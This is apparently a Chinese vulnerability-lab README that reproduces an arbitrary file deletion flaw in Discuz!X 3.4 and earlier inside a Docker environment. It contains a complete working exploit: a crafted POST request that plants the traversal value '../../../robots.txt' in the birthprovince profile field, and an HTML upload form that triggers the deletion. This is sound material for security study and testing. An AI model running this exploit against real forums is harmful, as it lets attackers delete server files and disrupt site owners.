

# Discuz!X ≤3.4 任意文件删除漏洞

Discuz!X是一个广泛使用的论坛软件系统。在Discuz!X 3.4及以下版本中存在一个任意文件删除漏洞，攻击者可以通过用户资料修改功能删除服务器上的任意文件。

参考链接：

- <https://lorexxar.cn/2017/09/30/dz-delete/>

## 环境搭建

执行下列命令部署Discuz!X安装环境：

```
docker compose up -d
```

安装时，只需修改数据库地址为`db`，其他配置保持默认即可：



## 漏洞复现

首先，访问`http://your-ip/robots.txt`确认目标文件（如robots.txt）存在：


注册用户后，在个人设置页面找到自己的formhash值：


发送如下HTTP请求，注意替换其中的cookie和formhash值：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [你的cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[你的formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--
```

提交成功后，用户资料修改页面上的出生地会显示如下状态：


这表明我们的恶意数据已经成功写入数据库。

接下来，创建一个`upload.html`文件，代码如下（将`[your-ip]`替换为你的Discuz域名，`[form-hash]`替换为你的formhash值）：

```html
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面并上传一个普通图片文件。此时，恶意数据应该已被处理，漏洞利用完成。

再次访问`http://your-ip/robots.txt`，可以验证文件已被成功删除：


